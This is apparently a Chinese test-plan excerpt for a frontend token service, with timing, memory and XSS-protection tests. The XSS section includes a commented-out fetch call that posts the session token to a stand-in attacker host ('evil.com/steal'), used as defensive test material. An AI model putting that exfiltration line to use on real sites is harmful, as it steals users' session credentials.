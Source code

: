 #### 4.1.1 响应时间测试

```javascript
console.time('setToken')
tokenService.setToken({ token: 'test', refreshToken: 'test' })
console.timeEnd('setToken')

console.time('getToken')
tokenService.getAccessToken()
console.timeEnd('getToken')

console.time('clearToken')
tokenService.clearToken()
console.timeEnd('clearToken')
```

**预期结果:**
- ✅ setToken < 1ms
- ✅ getToken < 0.1ms
- ✅ clearToken < 1ms

#### 4.1.2 内存占用测试

```javascript
// 在控制台执行
console.log('Initial memory:', performance.memory?.usedJSHeapSize)

// 执行多次登录登出
for (let i = 0; i < 100; i++) {
  tokenService.setToken({ token: `test-${i}`, refreshToken: `refresh-${i}` })
  tokenService.clearToken()
}

console.log('After operations:', performance.memory?.usedJSHeapSize)
```

**预期结果:**
- ✅ 内存占用稳定,无明显增长
- ✅ 无内存泄漏

### 4.2 安全测试

#### 4.2.1 XSS 防护测试

尝试通过控制台窃取 Token:

```javascript
// 尝试读取 localStorage (应该失败)
console.log(localStorage.getItem('token')) // null

// 尝试读取 sessionStorage (可能成功,但关闭标签页就清除)
console.log(sessionStorage.getItem('auth_session'))

// 尝试发送到恶意服务器(测试用例,不要在生产环境执行)
// fetch('https://evil.com/steal', {
//   method: 'POST',
//   body: sessionStorage.getItem('auth_session')
// })
```
